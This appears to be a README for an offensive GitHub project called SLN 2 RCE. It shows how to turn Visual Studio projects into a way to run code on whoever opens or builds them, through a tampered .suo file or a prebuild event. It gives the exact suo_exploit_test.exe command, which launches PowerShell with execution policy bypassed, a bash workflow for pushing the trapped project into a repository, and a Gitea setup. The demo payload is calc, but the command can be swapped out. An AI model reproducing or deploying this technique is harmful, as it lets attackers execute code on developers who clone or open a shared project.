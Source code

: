 #########
SLN 2 RCE
#########

| Weaponizing Visual Studio projects to trigger RCE using SUO file (Solution User Options) or prebuild event
|
| All credit goes to cjm00nw, edwardzpeng & moom825
|  https://github.com/cjm00n/EvilSln
|  https://github.com/moom825/visualstudio-suo-exploit

|
| SUO RCE happen when cloning project into VS or when opening the sln project file for the first time (VS overwrite the suo file).
| (Note that suo file isn't interpreted by msbuild.exe)
| The suo file has been modified using suo_exploit_test.exe to overwrite the initial suo file generated by VS.

.. code-block:: powershell

    suo_exploit_test.exe .suo test.suo powershell -ep bypass -file action.ps1

|

| The prebuild event will happen when starting build, so VS/msbuild.exe needs to support targeted language.
| This project offer c# (.NET6.0) and c++ models.
| All methods will call action.ps1 powershell script (and will start calc)

.. code-block:: bash

    # Move to a new temp dir
    cd $(mktemp -d)

    # Clone SLN2RCE and your payload project
    git clone https://github.com/charlesgargasson/SLN2RCE.git
    git clone http://localhost:3000/user2/repo.git

    # Get git info from your project
    rm -rf SLN2RCE/.git
    cp -r repo/.git SLN2RCE/

    # Set command
    echo 'calc' \
    > SLN2RCE/action.ps1

    # Push modifications
    cd SLN2RCE
    git add .*
    git commit -m ok
    git push

|

| If you need a git instance

.. code-block:: bash

    cat <<'EOF'>/tmp/gitea.yml
    version: "3"

    networks:
    gitea:
        external: false

    services:
    server:
        image: gitea/gitea:1.22.3
        container_name: gitea
        environment:
        - USER_UID=1000
        - USER_GID=1000
        restart: always
        networks:
        - gitea
        volumes:
        - /tmp/gitea:/data
        - /etc/timezone:/etc/timezone:ro
        - /etc/localtime:/etc/localtime:ro
        ports:
        - "3000:3000"
        - "222:22"
    EOF

    docker-compose -f /tmp/gitea.yml up

|